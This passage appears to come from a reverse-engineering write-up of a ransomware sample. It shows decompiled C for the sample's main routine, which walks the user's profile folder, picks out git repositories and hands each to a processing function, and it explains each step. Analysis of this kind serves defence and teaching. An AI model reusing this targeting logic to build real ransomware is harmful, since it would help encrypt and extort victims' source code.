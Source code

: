 ### Analyzing the ransomware main

The core logic of the ransomware is the following:

```c
pcVar3 = getenv("USERPROFILE");
_Count = strlen(pcVar3);
_Dest = (char *)calloc(_Count + 2,1);
_Str1 = local_b28.cFileName;
strncpy(_Dest,pcVar3,_Count);
sVar4 = strlen(_Dest);
pcVar3 = _Dest + sVar4;
pcVar3[0] = '\\';
pcVar3[1] = '*';
pcVar3[2] = '\0';
hFindFile = FindFirstFileA(_Dest,&local_b28);
do {
    iVar1 = strcmp(_Str1,".");
    if (iVar1 != 0) {
        iVar1 = strcmp(_Str1,"..");
        if ((iVar1 != 0) && (((byte)local_b28.dwFileAttributes & 0x10) != 0)) {
            _Count_00 = strlen(_Str1);
            sVar4 = _Count + _Count_00 + 1;
            pcVar3 = (char *)calloc(_Count + _Count_00 + 2,1);
            strncat(pcVar3,_Dest,_Count);
            sVar5 = strlen(pcVar3);
            (pcVar3 + sVar5)[0] = '\\';
            (pcVar3 + sVar5)[1] = '\0';
            strncat(pcVar3 + _Count + 1,_Str1,_Count_00);
            uVar6 = is_repository(pcVar3,sVar4);
            if ((char)uVar6 != '\0') {
                puVar8 = local_9e8;
                puVar9 = local_1578;
                for (lVar7 = 0x134; lVar7 != 0; lVar7 = lVar7 + -1) {
                    *puVar9 = *puVar8;
                    puVar8 = puVar8 + 1;
                    puVar9 = puVar9 + 1;
                }
                process_directory(pcVar3,sVar4,local_bc8,local_1578);
            }
            free(pcVar3);
        }
    }
		BVar2 = FindNextFileA(hFindFile,&local_b28);
} while (BVar2 != 0);
FindClose(hFindFile);
return 0;
```

The ransomware does the following:

1. It iterates through the entire user's profile directory.
2. It skips all files that are not directories. We understand this from the `dwFileAttributes` field of the `FindFileData` structure. This field is a dword that works as a multi-flag. The constants for these flags are found in the MSDN [docs][7]. The flag `0x10` corresponds to the `FILE_ATTRIBUTE_DIRECTORY` value and if it is set, this indicates that the current file is a directory.
3. Then, each directory is passed into `is_repository` which we assume that returns True/False depending on whether the specified directory is a valid git repository. Further analysis of this function will be performed later.
4. If the current directory is a repository, `process_directory` is called which will also be analyzed later.


[ 1 ]: https://dogbolt.org/ "Decompiler Explorer"
[ 2 ]: https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getusernamea "GetUserNameA"
[ 3 ]: https://github.com/libecc/libecc/blob/master/src/curves/curves.c#L82 "ec_get_curve_params_by_type"
[ 4 ]: https://github.com/libecc/libecc/blob/master/include/libecc/lib_ecc_types.h#L159
[ 5 ]: https://neuromancer.sk/std/secg/secp256r1
[ 6 ]: https://github.com/libecc/libecc/blob/6167c16eb9846b26a819f70295c59362837b0c6c/src/external_deps/rand.c#L86
[ 7 ]: https://learn.microsoft.com/en-us/windows/win32/fileio/file-attribute-constants
[ 8 ]: https://github.com/kokke/tiny-AES-c
[ 9 ]: https://github.com/libecc/libecc/blob/6167c16eb9846b26a819f70295c59362837b0c6c/include/libecc/curves/ec_params.h#L51